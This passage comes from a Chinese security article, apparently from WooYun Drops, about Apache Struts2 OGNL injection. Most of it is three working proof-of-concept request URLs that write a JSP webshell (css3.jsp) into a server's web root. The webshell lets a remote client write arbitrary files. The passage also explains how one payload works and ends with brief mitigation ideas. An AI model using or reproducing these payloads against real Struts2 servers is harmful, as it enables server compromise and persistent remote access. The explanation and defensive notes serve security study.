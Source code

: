 POC4:

```
http://127.0.0.1/Struts2/hello.action?class.classLoader.jarPath=(%23context%5b%22xwork.MethodAccessor.denyMethodExecution%22%5d=+new+java.lang.Boolean(false),%23_memberAccess%5b%22allowStaticMethodAccess%22%5d=true,%23req=@org.apache.struts2.ServletActionContext@getRequest(),new+java.io.BufferedWriter(new+java.io.FileWriter(%23req.getRealPath(%22/%22)%2b%22css3.jsp%22)).append(%23req.getParameter(%22p%22)).close()(aa)&x[(class.classLoader.jarPath)('aa')]&p=%3c%25if(request.getParameter(%22f%22)!%3dnull)(new+java.io.FileOutputStream(application.getRealPath(%22%2f%22)%2brequest.getParameter(%22f%22))).write(request.getParameter(%22t%22).getBytes())%3b%25%3e 
```

POC5:

```
http://127.0.0.1/Struts2/hello.action?a=1${%23_memberAccess[%22allowStaticMethodAccess%22]=true,%23req=@org.apache.struts2.ServletActionContext@getRequest(),new+java.io.BufferedWriter(new+java.io.FileWriter(%23req.getRealPath(%22/%22)%2b%22css3.jsp%22)).append(%23req.getParameter(%22p%22)).close()}&p=%3c%25if(request.getParameter(%22f%22)!%3dnull)(new+java.io.FileOutputStream(application.getRealPath(%22%2f%22)%2brequest.getParameter(%22f%22))).write(request.getParameter(%22t%22).getBytes())%3b%25%3e 
```

POC6:

```
http://localhost/Struts2/test.action?redirect:${%23req%3d%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletRequest'),%23p%3d(%23req.getRealPath(%22/%22)%2b%22css3.jsp%22).replaceAll("\\\\", "/"),new+java.io.BufferedWriter(new+java.io.FileWriter(%23p)).append(%23req.getParameter(%22c%22)).close()}&c=%3c%25if(request.getParameter(%22f%22)!%3dnull)(new+java.io.FileOutputStream(application.getRealPath(%22%2f%22)%2brequest.getParameter(%22f%22))).write(request.getParameter(%22t%22).getBytes())%3b%25%3e 
```

比如 POC4 当中首先就是把 allowStaticMethodAccess 改为 trute 即允许静态方法访问。然后再获取请求对象，从请求对象中获取网站项目的根路径，然后在根目录下新建一个 css3.jsp，而 css3.jsp 的内容同样来自于客户端的请求。POC4 中的 p 就是传入的参数，只要获取 p 就能获取到内容完成文件的写入了。之前已经说过**Java 不是动态的脚本语言，所以没有 eval。不能像 PHP 那样直接用 eval 去动态执行，所以 Java 里面没有真正意义上的一句话木马。菜刀只是提供了一些常用的一句话的功能的具体的实现，所以菜刀的代码会很长，因为这些代码在有 eval 的情况下是可以通过发送请求的形式去构造的，在这里就必须把代码给上传到服务器去编译成执行。**

#### **Struts2:**

关于修补仅提供思路，具体的方法和补丁不提供了。Struts2 默认后缀是 action 或者不写后缀，有的改过代码的可能其他后缀如.htm、.do，那么我们只要拦截这些请求进行过滤就行了。

```
1、  从 CDN 层可以拦截所有 Struts2 的请求过滤 OGNL 执行代码
2、  从 Server 层在请求 Struts2 之前拦截其 Ognl 执行。
3、  在项目层面可以在 struts2 的 filter 加一层拦截
4、  在 Struts2 可以用拦截器拦截
5、  在 Ognl 源码包可以拦截恶意的 Ognl 请求
6、  实在没办法就打补丁
7、  终极解决办法可以考虑使用其他 MVC 框架 
```

**Tags:** [java java 安全](http://drops.wooyun.org/tag/java-java%e5%ae%89%e5%85%a8), [struts](http://drops.wooyun.org/tag/struts)

版权声明：未经授权禁止转载 [园长](http://drops.wooyun.org/author/园长 "由 园长 发布")@[乌云知识库](http://drops.wooyun.org)
